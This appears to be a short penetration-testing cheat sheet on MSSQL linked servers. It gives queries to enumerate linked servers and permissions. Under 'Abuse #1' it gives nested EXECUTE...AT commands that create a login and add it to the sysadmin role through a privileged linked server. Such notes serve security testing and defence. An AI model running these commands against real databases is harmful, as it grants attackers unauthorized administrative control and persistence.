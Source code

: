 ```yaml
---
title: "MSSQL Linked Servers"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "linked_server", "privesc"]
---
```


---
### Basic Commands

<small>*Hint: Use double `''` to escape `'` in mssql*</small>

<div>

```mysql
# Show current server
select @@servername
```

```mysql
# Show linked servers
select srvname from sysservers;
```

</div>

### Execute Query between Linked Servers

<div>

```mysql
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```mysql
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

</div>

<br>

---

### Abuse #1: Create Admin User from Privilege Linked Server

<div>

```mysql
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```mysql
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

</div>